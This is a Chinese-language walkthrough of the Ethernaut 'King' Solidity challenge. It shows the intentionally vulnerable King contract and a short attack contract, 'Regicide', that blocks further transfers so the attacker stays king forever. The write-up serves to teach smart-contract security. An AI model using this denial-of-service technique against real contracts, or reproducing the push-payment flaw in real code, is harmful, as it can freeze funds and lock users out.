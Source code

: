 # King

> 这个合约实现了一个很经典的游戏：谁的出价比当前价格高，谁就能成为新的国王.
> 你需要成为这个合约永恒的国王.让国王的权限不会再被移交

[King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

这个合约中，影响king变量变化的语句出现在receive函数中，我们复习一下receive函数，当合约的msg.data不存在且msg.value不为0的时候，receive被调用。

所以我们需要向King合约中转账便可以修改king权限。

这时候我们应该如何永久的成为国王呢？容易想到的是，我们阻止其他用户调用receive。从本题来看，我们需要让`payable(king).transfer(msg.value);`这段函数失败。

所以我们需要构造一个接受转账会报错的合约。显而易见的，我们通过不实现receive与fallback来完成。

以下是攻击合约的相关代码

```sol
contract Regicide {
  constructor(address addr_) payable  {
    (bool result, ) = payable(addr_).call{value: msg.value}("");
      require(result, "fail");
  }
}
```



